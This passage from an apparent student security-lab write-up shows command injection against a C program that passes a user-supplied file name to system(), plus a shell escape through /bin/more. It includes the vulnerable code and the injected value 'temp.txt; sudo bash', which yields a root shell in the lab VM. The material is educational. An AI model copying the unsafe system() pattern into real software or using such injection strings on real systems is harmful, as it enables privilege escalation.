 ```

  v[0] = "/bin/cat"; v[1] = argv[1]; v[2] = NULL;
  command = malloc(strlen(v[0]) +strlen(v[1]) + 2);
  sprintf(command, "%s %s", v[0], v[1]);
  system(command);

  return 0 ;
}
```
In the audit.c program, it will first look at the number of command line arguments to make sure we have passed in some file name. Then we are going to create the variable command with /bin/cat and the file name that we wish to open. Lastly, we will run the system() call for the command we have. If we include the file name followed by ; and some command like sudo bash. With system() call running. It is very likely for us to run the sudo bash.


##### Task 3.2:
In this task, we are testing the idea that I mentioned above to exploit the idea:
```
[04/27/21]seed@VM:~/.../final$ nano audit.c
[04/27/21]seed@VM:~/.../final$ gcc -o audit1 audit.c
[04/27/21]seed@VM:~/.../final$ touch temp.txt
[04/27/21]seed@VM:~/.../final$ ./audit1 "temp.txt; sudo bash"
root@VM:/home/seed/Desktop/final# id
uid=0(root) gid=0(root) groups=0(root)
root@VM:/home/seed/Desktop/final# whoami
root
```
As we can see, I compiled the program. Then I ran the program as ./audit1 "temp.txt; sudo bash". The program expected the file name as the input from ""; however, I also gave it ; sudo bash. With system() running, it will run the command just fine. Thus, running the sudo bash command which we should have no access to.

##### Task 3.3:
In this task, we are trying to run the audit2 program which uses execve() and /bin/more. As we previously talked about, execve() is safer than system() since it splits the command and data, which means the strategy we used for system() is not going to work. However, /bin/more gave us another opportunity, from the man page of more, we can see that more will display the pages one at a time, giving a section to enter the commands:
```
!command or :!command
                        Execute command in a subshell.
```
Thus, the attack would still be successful; however, we need to come up with another approach:
```
[04/27/21]seed@VM:~/.../final$ nano audit2.c
[04/27/21]seed@VM:~/.../final$ gcc -o audit2 audit2.c
[04/27/21]seed@VM:~/.../final$ ./audit2 "temp.txt"
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char *argv[])
{
  char *v[3];
  char *command;

  if(argc < 2) {
    printf("Please type a file name.\n");
    return 1;
  }

  v[0] = "/bin/cat"; v[1] = argv[1]; v[2] = NULL;
  command = malloc(strlen(v[0]) +strlen(v[1]) + 2);
```
